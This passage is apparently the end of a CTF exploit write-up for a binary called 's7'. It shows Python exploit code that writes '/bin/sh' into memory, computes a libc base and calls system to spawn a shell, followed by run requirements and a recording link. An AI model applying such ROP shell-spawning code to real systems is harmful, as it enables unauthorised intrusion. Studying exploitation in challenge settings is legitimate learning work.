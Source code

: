 ```python
        continue

    write(0x00601028, b"/bin/sh\x00", lldiv + libc_base)

    bin_sh = 0x00601028
    
    execute_shell(system + libc_base, bin_sh)
    
    s7.pwned()

    break
```

The `rop` function is ripped almost exactly from [Defeating baby_rop with radare2](http://www.radare.today/defeating-baby_rop-with-radare2/).

## Running and cinema

To run the exploit are necessary:

* python3
* pexpect
* binexpect

The exploit python file and binexpect.py must be in the same directory of s7 executable.

[![asciicast](https://asciinema.org/a/109u7q265ukphpw01tsgxo53e.png)](https://asciinema.org/a/109u7q265ukphpw01tsgxo53e)
